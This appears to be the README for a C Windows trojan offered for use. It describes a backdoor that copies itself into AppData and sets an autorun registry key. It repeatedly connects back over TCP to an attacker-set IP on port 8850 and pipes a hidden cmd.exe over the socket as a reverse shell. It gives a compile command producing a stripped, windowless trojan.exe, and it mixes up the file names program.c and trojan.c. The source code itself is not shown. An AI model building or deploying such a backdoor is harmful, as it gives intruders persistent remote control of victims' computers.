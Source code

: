# 💻 Program Description
# This C program creates a simple persistence mechanism and allows remote command execution by establishing a TCP connection to a server. The core functionality includes:

Persistence Setup 🔒:

The program copies itself to the AppData folder and creates an autorun registry entry to ensure it runs automatically whenever the system starts.

Remote Connection 🌐:

It attempts to establish a persistent connection to a remote server over TCP/IP.

The program continuously retries to connect to the server if the connection fails, with a 5-second retry interval.

Process Execution 🚀:

Once connected to the server, it redirects the standard input/output/error to the socket and spawns a cmd.exe process, which allows remote command execution.

Directory Manipulation 🧳:

Temporarily changes the current working directory to C: before launching the cmd.exe process, and then restores the original directory afterward.

⚙️ Installation & Compilation
To compile and run the program on a Windows system, follow these steps:

Install a C Compiler 🛠️:

Download and install MinGW (Minimalist GNU for Windows) or use Microsoft Visual Studio.

For MinGW, you can install it from here.

Prepare the Source Code 📑:

Copy the program's source code into a file, e.g., program.c.

Open Command Prompt 🖥️:

Navigate to the folder where trojan.c is located.

Compile the Code 🏗️:

If using MinGW, compile the program using the following command

gcc trojan.c -o trojan.exe -lws2_32 -mwindows -O2 -s

If using Visual Studio, open the project in Visual Studio and build the solution.

Run the Program 🚀:

Once compiled, you can run the program by simply executing the compiled program.exe from the command line or by double-clicking the executable.

🔧 Configuration
Before running the program, you'll need to modify the following parts of the code:

Set the Server IP Address 🌍:

In the server.sin_addr.s_addr = inet_addr("YOUR IP"); line, replace "YOUR IP" with the IP address of the remote server you want to connect to.

Set the Server Port 📡:

By default, the program connects to port 8850. You can change this port by modifying server.sin_port = htons(YOUR PORT); to any valid port number.
